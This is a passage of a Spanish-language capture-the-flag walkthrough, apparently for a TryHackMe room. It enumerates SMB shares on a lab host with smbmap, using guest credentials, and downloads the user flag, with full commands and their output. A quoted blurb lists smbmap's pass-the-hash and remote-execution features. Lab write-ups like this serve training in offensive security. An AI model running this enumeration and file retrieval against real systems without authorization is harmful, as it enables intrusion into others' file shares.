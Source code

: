 como vemos tampoco nos dio acceso al smbclient asi que usaremos la herramienta de smbmap

para los que tengan una idea de lo que va esta herrameinta les dejo un corto resumen:

### ¿Que es SmbMap?

![Samba, Active Directory](samba.png)

`Desde hace unos ya tenemos disponible en los repositorios de Kali Linux la herramienta SMBMap, que permite enumerar recursos compartidos SAMBA a lo largo de un dominio. Y no sólo eso, enumera contenidos y permisos, soporta pass-the-hash, descarga/sube/borra archivos, busca patrones de nombres de archivo con la opción de autodescargarlos e incluso ejecuta comandos en remoto.`

#### Obtencion de la primera Bandera!!!

con eso aprendido podemos comenzar

`smbmap -H 10.10.140.48 -u "Visitor" -p "GuestLogin\!" -r Home`

````bash
┌──(samsepi0l㉿kali)-[~]
└─$ smbmap -H 10.10.47.234 -u "Visitor" -p "GuestLogin\!" -r Home
[+] IP: 10.10.47.234:445	Name: 10.10.47.234                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	Home                                              	READ ONLY	
	.\Home\*
	dr--r--r--                0 Tue Jun  8 14:42:53 2021	.
	dr--r--r--                0 Tue Jun  8 14:42:53 2021	..
	fr--r--r--               17 Tue Jun  8 14:41:45 2021	user.txt
````

`-u` para el usuario `-p` para la password `-r` para la ruta.

Con `-r` nos estaremos moviendo de directorios y con `--download` los estariamos descargando
 
Explorando vemos una carpeta compartida llamada Home la cual tiene la primera bandera asi que procedemos a descargarla con el siguiente comando

`smbmap -H 10.10.140.48 -u "Visitor" -p "GuestLogin\!" -r Home --download Home/user.txt`

haremos un `ls` y ahi estara en nuestro directorio, le haremos un cat para ver lo que contiene el archivo

`cat 10.10.140.48-Home_user.txt`

````bash
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ smbmap -H 10.10.47.234 -u "Visitor" -p "GuestLogin\!" -r Home --download Home/user.txt
[+] Starting download: Home\user.txt (17 bytes)
[+] File output to: /home/samsepi0l/CroccCrew/10.10.47.234-Home_user.txt
                                                                                                                                                                
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ ls
10.10.47.234-Home_user.txt
                                                                                                                                                                
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ cat 10.10.47.234-Home_user.txt | head -c 9
THM{Gu3st
````